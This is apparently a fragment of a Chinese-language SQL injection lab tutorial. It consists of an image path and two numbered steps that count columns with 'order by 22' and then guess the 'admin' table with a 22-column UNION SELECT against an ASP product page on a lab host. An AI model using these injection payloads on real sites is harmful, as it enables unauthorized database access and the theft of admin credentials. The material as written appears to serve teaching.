

3、猜解的数目
http://10.10.10.130/0/Production/PRODUCT_DETAIL.asp?id=1138 order by 22

4、猜解表名【联合UNION 查询】http://10.10.10.130/0/Production/PRODUCT_DETAIL.asp?id=1138 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from admin